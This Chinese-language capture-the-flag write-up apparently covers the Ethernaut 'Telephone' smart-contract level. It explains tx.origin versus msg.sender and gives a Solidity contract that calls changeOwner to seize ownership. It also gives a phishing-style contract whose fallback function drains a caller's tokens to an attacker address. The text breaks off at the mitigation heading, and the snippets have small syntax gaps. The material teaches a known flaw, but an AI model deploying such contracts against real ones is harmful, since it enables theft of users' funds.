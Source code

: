 **考点**： tx.origin与msg.sender区别

tx.origin为交易发送方（完整调用链上的原始发送方）;<br>
msg.sender：消息发送方（当前调用）

**解题步骤**：
由于msg.sender为合约地址，tx.origin为调用hack合约的账户地址，当我们在自定义合约中调用changeOwner方法时，即可满足条件tx.origin != msg.sender，从而获取owner权限

**解题代码**：

1. 创建自定义合约hack
```
pragma solidity ^0.4.18;

contract Telephone {
  function changeOwner(address _owner) public;
}

contract hack{
  function attach(address telephoneAddress) public {
    Telephone(telephoneAddress).changeOwner(0xcfe860f5b2865941d93a3526119b9435cc2ac0b5);
  }
}
```
2. 调用hack合约的attach方法即获取owner权限

**相关漏洞**： 
下例中，当用户给黑客转账时就会把用户的钱转到黑客账户
```
contract projecter{

function() public payable {}

function transfer(address _to, uint _value) {
    if(tokens[tx.origin]>_value){
        tokens[tx.origin] -= _value;
        tokens[_to] += _value;
    }
}

contract hacker {
  projecter token;
  address attackerAddress= 0xaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
  function hacker() public{
    token = 0xcfe860f5b2865941d93a3526119b9435cc2ac0b5;
  }
    function () payable {
        token.transfer(attackerAddress, 10000);
    }
}
```
当用户给hacker转账时，触发hacker的fallback函数，fallback函数使的用户的token转移到attackerAddress。

**如何避免**
